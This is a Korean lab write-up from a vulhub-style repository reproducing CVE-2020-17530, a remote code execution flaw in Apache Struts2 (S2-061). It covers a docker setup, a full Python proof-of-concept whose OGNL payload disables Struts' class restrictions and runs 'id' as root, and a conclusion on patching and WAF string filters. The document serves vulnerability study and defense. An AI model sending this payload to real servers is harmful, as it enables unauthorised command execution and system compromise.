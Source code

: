 # CVE-2020-17530 - Apache Struts2 RCE (s2-061)
#### [pull request 주소] https://github.com/gunh0/kr-vulhub/pull/198
#### [github link](https://github.com/daehyeok0618/kr-vulhub/tree/main/Struts2/CVE-2020-17530)
#### [참고 자료 vulhub CVE-2020-17530](https://github.com/vulhub/vulhub/tree/master/struts2/s2-061)
## 개요
CVE-2020-17530은 Apache Struts2 프레임워크의 `Struts 2.5.22` 이하 버전에서 발생하는 Remote Code Execution (원격 코드 실행) 취약점입니다. 이 취약점은 `Forced OGNL evaluation`로 인해 발생하며, 공격자가 조작된 OGNL 표현식을 HTTP 요청 내에 주입함으로써 서버 측에서 악성 코드를 실행시킬 수 있습니다.

## 환경 설정
다음을 입력하면 Struts 2.5.25 서버가 시작됩니다.
```bash
docker-compose up -d
```
환경이 시작된 후 `http://your-ip:8080`에 방문하면 간단한 페이지가 표시됩니다.
![image](./image.png)
환경을 구성했습니다.


## POC
다음과 같은 공격 코드를 이용해서 `id` 명령을 실행하는 요청을 보냈습니다. 공격자는 multipart/form-data 요청을 통해 서버의 파라미터 처리 구문에 조작된 OGNL payload를 주입합니다.
```
import requests

url = "http://localhost:8080/index.action"

# exploit payload (multipart/form-data 형식)
payload = '''%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).
(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).
(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).
(#bean.setBean(#stack)).
(#context=#bean.get("context")).
(#bean.setBean(#context)).
(#macc=#bean.get("memberAccess")).
(#bean.setBean(#macc)).
(#emptyset=#instancemanager.newInstance("java.util.HashSet")).
(#bean.put("excludedClasses",#emptyset)).
(#bean.put("excludedPackageNames",#emptyset)).
(#arglist=#instancemanager.newInstance("java.util.ArrayList")).
(#arglist.add("id")).
(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).
(#execute.exec(#arglist))}'''

# multipart 형식으로 보냄
files = {
    "id": (None, payload)
}

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36"
}

response = requests.post(url, files=files, headers=headers)

print("Status Code:", response.status_code)
print("Response Body:\n", response.text)
```

![imgage1](./image1.png)
결과를 보면 현재 명령이 루트 권한으로 실행됨을 알 수 있습니다. 즉, 공격자가 웹애플리케이션 서버에서 루트 권한으로 시스템 명령어 실행에 성공하였습니다.

## 결론
+ Apache Struts2 S2-061 (CVE-2020-17530) 취약점은 OGNL 표현식이 잘못 처리되어 공격자가 원격 코드 실행(RCE)을 할 수 있는 심각한 보안 문제입니다. 대응 방안으로는 먼저 Struts를 2.5.26 이상으로 즉시 업데이트해야 하며, struts.xml 설정에서 struts.excludedClasses와 struts.excludedPackageNames를 명시적으로 제한해 OGNL 접근을 차단합니다.
+ 패치가 어려운 환경에서는 WAF를 사용해 %{, freemarker, Runtime 등 의심스러운 문자열이 포함된 요청을 차단하거나 .action 경로에 접근제어를 적용합니다. 또한 웹서버 로그를 분석해 이상 행위를 탐지하고, 정기적인 보안 점검과 의존성 관리 도구를 통해 취약한 라이브러리를 업데이트해야 합니다.

